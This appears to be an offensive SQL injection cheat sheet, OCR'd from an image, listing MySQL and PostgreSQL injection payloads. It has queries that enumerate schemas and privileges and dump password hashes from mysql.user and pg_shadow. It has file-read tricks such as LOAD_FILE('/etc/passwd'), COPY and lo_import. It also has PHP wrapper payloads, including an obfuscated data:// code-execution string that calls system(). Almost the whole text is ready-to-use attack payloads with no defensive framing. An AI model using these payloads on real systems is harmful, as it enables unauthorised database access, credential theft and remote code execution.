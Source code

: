 	SELECT...
	
	concat(host, char(58), user, char(58), password) FROM mysql.user
	user()
	system_user()
	group_concat(privilege_type) from information_schema.user_privileges
	version()
	database()
	@@hostname
	@@datadir
	schema()
	LOAD_FILE('/etc/passwd')
	schema_name FROM information_schema.schemata LIMIT 0,1		#First Limit is offset; second is number of records to pull/display
	table_name from information_schema.tables
	user FROM mysql.user LIMIT 0,1
	PHP Wrappers: 
		Read File:  php://filter/convert.base64-encode/resource=.
		RCE:  data://text/plain,<?php $a="sy";$b="stem";$c=$a.$b; $c("uname -a");?>

	//**Databases, Tables, and Columns:   concat(table_schema, char(58), table_name, char(58), column_name) FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
	//Databases: schema_name FROM information_schema.schemata
		OR:  group_concat(schema_name) from information_schema.schemata
	//Tables: table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
		//Or: TABLE_NAME FROM information_schema.TABLES WHERE table_schema="database1"
	//Columns: column_name FROM information_schema.COLUMNS WHERE TABLE_NAME="table1"
	//Data: column1 FROM table1 LIMIT %s,1
		ex. concat(login, char(58), password) FROM atutor.AT_admins
		//From another database: column1 FROM database2.table1
	//Users: user FROM mysql.user
	//Password Hashes (mysql): concat(host, char(58), user, char(58), password) FROM mysql.user
### Useful PostgreSQL Queries:
	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
	version();
	user; \\ current_user; \\ session_user; \\ usename FROM pg_user; \\ getpgusername();
	usename, passwd FROM pg_shadow;
	Privs:  usename, usecreatedb, usesuper, usecatupd FROM pg_user;  \\  current_setting('is_superuser');
	Admins:  usename FROM pg_user WHERE usesuper IS TRUE;
	current_database();
	inet_server_addr();
	inet_server_port();
	current_setting('data_directory');
	SELECT current_setting('hba_file');

	Databases:  SELECT datname FROM pg_database;
	Tables:  SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r',") AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid);
	    SELECT table_name FROM information_schema.tables
	Columns:  SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public');
	    SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
	Read File:  CREATE temp table mytable (content text); COPY mytable from $$c:\\Windows\\System32\\Drivers\\etc\\hosts$$; SELECT content from mytable LIMIT 1 OFFSET 0; DROP table mytable;
	    Method 2:  SELECT lo_import($$C:\\Windows\\win.ini$$,1337); select loid, pageno, encode(data, 'escape') from pg_largeobject; ->After:  SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;  OR  SELECT lo_unlink(1337);